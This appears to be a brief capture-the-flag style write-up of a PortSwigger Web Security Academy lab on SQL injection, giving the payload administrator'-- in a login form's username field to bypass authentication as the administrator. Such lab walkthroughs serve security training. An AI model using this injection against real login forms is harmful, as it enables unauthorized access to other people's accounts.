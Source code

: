 ```yaml
---
title: PSA - SQLi 2 - SQLi Allowing Authentication Bypass
date: 2023-03-02
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Apprentice`

## 🎯 Goal

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

## ✅ Solution

In the Username field of the Login form:

````text
administrator'--
````

Anything can be put in the password field:

````text
abc
````
